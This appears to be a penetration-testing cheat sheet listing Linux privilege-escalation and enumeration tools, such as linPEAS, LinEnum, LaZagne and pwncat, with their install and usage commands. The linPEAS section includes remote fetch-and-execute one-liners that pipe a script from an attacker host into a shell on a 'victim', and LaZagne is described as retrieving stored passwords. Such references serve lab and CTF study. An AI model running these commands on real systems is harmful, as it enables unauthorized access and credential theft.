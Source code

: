 **If wget doesn't work :**
```bash
cat > les.sh
This file was created using cat (^._.^)
# Hit Ctrl+D to exit!
```

# `linux-exploit-suggester`

https://github.com/mzet-/linux-exploit-suggester

```bash
# install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# usage
./les.sh
```

# `linux-smart-enumeration`

https://github.com/diego-treitos/linux-smart-enumeration

```bash
# install
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh
curl "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -o lse.sh

# usage
# shows interesting information that should help you to privesc
./lse.sh -l1 
# dump all the information it gathers about the system
./lse.sh -l2 
```

# `linPEAS`

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

```bash
# install
wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

# COMMANDS
# Local network
# On the Host
sudo python -m SimpleHTTPServer 80 

# On the Victim
curl $ip/linpeas.sh | sh 

# Without curl
# On the Host
sudo nc -q 5 -lvnp 80 < linpeas.sh 

# On the Victim
cat < /dev/tcp/10.10.10.10/80 | sh 

# USAGE
#all checks - deeper system enumeration, but it takes longer to complete.
./linpeas.sh -a 
# superfast & stealth - This will bypass some time consuming checks. In stealth mode Nothing will be written to the disk.
./linpeas.sh -s
 #Password - Pass a password that will be used with sudo -l and bruteforcing other users
./linpeas.sh -P
```

# `linuxprivchecker`

https://github.com/sleventyeleven/linuxprivchecker

```bash
# INSTALL
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# python 2.6/2.7
python linuxprivchecker.py -w -o linuxprivchecker.log

# python 3.x
pip install linuxprivchecker

# USAGE
linuxprivchecker -w -o linuxprivchecker.log
# or 
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

# `LinEnum`

https://github.com/rebootuser/LinEnum

```bash
# install
git clone https://github.com/rebootuser/LinEnum.git

# usage
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

# `LaZagne`

https://github.com/AlessandroZ/LaZagne

> Retrieve lots of passwords stored on a local computer.

```bash
# install
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip install -r requirements.txt
cd Linux/

# usage
python laZagne.py
```

# `unix-privesc-check`

https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz

```bash
chmod +x unix-privesc-check
./unix-privesc-check > checks.txt
```

# `pwncat`

https://github.com/calebstewart/pwncat

## Usage

```bash
# enumeration
run enumerate # to enumerate the whole server
run enumerate.file.caps # to enumerate linux capabilities
run enumerate.file.suid # to enumerate suid files
```
![image](https://github.com/buger-shack/scriptkiddie/assets/61053314/c28b3cf6-66ed-46e2-bb64-7c8455e35e82)
